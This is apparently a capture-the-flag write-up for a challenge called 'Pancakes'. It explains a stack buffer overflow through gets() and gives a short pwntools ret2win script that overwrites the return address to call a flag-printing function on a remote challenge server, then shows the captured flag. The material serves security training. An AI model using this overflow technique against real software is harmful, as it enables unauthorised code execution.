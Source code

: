 # Pancakes

Gets is called on rbp-0x90, there's a function called secret_recipe which reads flag.txt and prints it to stdout. So, just your standard ret2win, overflow 0x90 + 8 bytes of the buffer to overwrite the return address to that of secret_recipe


```python
from pwn import *
NUM_TO_RET = 0x90 + 8
padding = b'A' * NUM_TO_RET
e = ELF("./pancakes")
#p = e.process()
p = remote('jh2i.com',50021)
p.recvlines(2)
p.sendline(padding + p64(e.symbols['secret_recipe']))
p.interactive()
```

#### Flag: flag{too_many_pancakes_on_the_stack}
